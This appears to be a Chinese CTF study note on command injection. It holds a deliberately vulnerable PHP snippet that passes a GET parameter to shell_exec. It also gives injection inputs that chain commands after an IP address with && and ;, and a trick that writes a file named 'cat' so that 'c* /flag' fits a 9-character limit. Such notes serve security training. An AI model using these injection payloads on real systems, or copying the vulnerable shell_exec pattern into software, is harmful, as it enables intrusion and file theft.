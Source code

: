 ls() -查看当前目录下有什么文件

pwd 查看当前绝对路径

cat - 查看文件

dir -查看当前文件目录

find / -iname *fla*查看文件位置 （这里*为正则表达式的通匹符）

127.0.0.1 &&find / -name “*.txt”

**127.0.0.1 &&find / name txt 可能是错误 但是能看全部的目录**

### 长度限制

我们可以使用`>`将命令输入到文件名中。

```
PHP
<?php
show_source(__FILE__);
error_reporting(0);
if(strlen($_GET[1])<9){
     echo shell_exec($_GET[1]);
}
?>
```

这道题限制了小于9个字符，而`cat /flag`刚好有9个字符，那么我们可以将cat写到文件名中，如下：

```
CODE
>cat
```

此处代码把空字符串写入到一个名为cat的文件中，然后要执行时可以使用如下语句：

```
CODE
c* /flag
```

此时会去匹配当前文件名并且把它当成命令来执行，最终成功缩短一个字符执行了

```
cat /flag
```

# 绕过方法

#### 前缀限制

**分号**

```
CODE
ls;cat /flag
```
